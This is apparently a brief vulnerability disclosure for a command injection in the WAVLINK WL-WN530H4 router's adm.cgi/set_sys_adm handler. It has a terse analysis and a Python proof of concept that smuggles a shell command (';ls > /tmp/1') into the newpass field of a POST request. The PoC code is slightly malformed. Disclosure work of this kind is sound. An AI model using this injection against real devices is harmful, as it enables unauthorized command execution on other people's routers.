


# command injection

## WAVLINK_WL-WN530H4

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : 

[WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)## Analyse:



get value from SYSPASS



if password is correct and new passwd is changed, get into else


finally, call system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'newpass': + payload, 'SYSPASS':'your password'})
```
